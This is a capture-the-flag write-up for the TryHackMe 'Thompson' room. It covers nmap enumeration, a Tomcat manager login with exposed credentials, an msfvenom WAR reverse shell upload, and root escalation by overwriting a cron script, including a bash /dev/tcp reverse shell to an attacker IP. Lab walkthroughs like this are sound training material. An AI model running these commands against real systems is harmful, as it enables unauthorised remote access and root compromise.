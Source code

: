 ```yaml
---
title: "TryHackMe Thompson"
categories: [TryHackMe]
media_subpath: /images/tryhackme_thompson
image:
  path: room-image.png
---
```

## Enumeration
We starting with nmap scan:
  ```bash
  nmap -sS -sC -sV -T4 -Pn -p- <target>
  ```
Found 3 open ports:
  - 22 (SSH)
  - 80 (HTTP)
  - 8009 (AJP13)

![Nmap scan](1.png)

We have interesting directory (manager). Let's go check this website

![Gobuster enum](2.png)

---

## Tomcat manager login 

Tried to guess creds like tomcat:tomcat or admin:admin but no luck. Until "Cancel" button was clicked!

![Tomcat manager](3.png)  
![Credentials](4.png)

---

## Uploading reverse shell

We can upload `war` reverse shell using msfvenom:

**dont forget to change ip (tryhackme vpn ip) and port (if needed)**
  ```bash
  msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.10.10 LPORT=4545 -f war > reverse.war
  ```

New path appeared after uploading:

![Reverse shell uploaded](6.png)

Set up listener (on port you created reverse shell) and click on new directory to get a shell

We can upgrade shell using python (or python3)
  ```bash
  python -c "import pty; pty.spawn('/bin/bash')"
  ```
Then press CTRL+Z and type following
```bash
stty raw -echo; fg
```

Now press ENTER once

```bash
export TERM=xterm
```


![Shell](7.png)

---

## Found user and cronjob

Checking `/home` directory we found `jack` user

![User](8.png)

There's some script running every minute as root in jack's home directory, let's check what's there

![Cronjob](9.png)

Interesting... We could easily gain root access or just see contents of the root flag. 

![Image Alt Text](10.png)

---

## Privilege Escalation

### Method 1: Printing root flag content to test.txt

Edit `id.sh` like so and after a minute check test.txt:
  ```bash
  echo "cat /root/root.txt > test.txt" > id.sh
  ```

![Root flag](12.png)

### Method 2: Reverse shell as root

Edit `id.sh`:
  **change ip and port if to your machine**
  ```bash
  echo -e '#!/bin/bash\nbash -i >& /dev/tcp/10.10.10.10/4545 0>&1' > id.sh
  ```

Set up listener and wait for connection

![Root access](11.png)

